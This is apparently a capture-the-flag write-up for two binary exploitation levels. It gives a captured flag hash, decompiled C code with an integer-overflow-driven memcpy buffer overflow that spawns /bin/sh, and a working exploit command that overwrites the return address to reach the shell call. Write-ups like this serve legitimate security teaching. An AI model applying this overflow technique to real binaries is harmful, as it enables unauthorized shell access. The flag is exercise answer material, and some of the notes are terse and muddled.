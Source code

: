 ## BONUS0 - FLAG

cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

## BONUS1 - BINARY ANALYSIS

```c
undefined4 main(undefined4 param_1, int param_2) {
	undefined4 result;
	char buffer[40];
	int input_length;

	input_length = atoi(*(char **)(param_2 + 4));
	if (input_length < 10) {
		memcpy(buffer, *(void **)(param_2 + 8), input_length * 4);

		if (input_length == 0x574f4c46) {
			execl("/bin/sh", "sh", 0);
		}
		result = 0;
	} else {
		result = 1;
	}
	return result;
}
```

## BONUS1 - EXPLANATION & SOLUTION

1. Functionality of the Program

	- The first argument is converted to an integer (nb) using atoi().
		To reach the vulnerable memcpy(), nb must be ≤ 9.
	- The second argument is copied into a buffer located 40 bytes above the location of the atoi() return.
	- The program compares nb with 0x574f4c46. If they are equal, it calls execl().
	- Vulnerability: The memcpy() function copies 4 * nb bytes from the second argument into the buffer. This introduces a buffer overflow if nb is manipulated to exceed the buffer's size constraints.

0x574f4c46 corresponds to the ASCII string "FLOW"

0xb7e454d3 addr retour main

0x08048482 call de execl (not forget argument to work)

run -1073741810 $(python -c 'print("A" * 500)')



```bash
./bonus1 -1073741809 $(python -c 'print("A" * 56 + "\x82\x84\x04\x08")')
```

## BONUS1 - FLAG
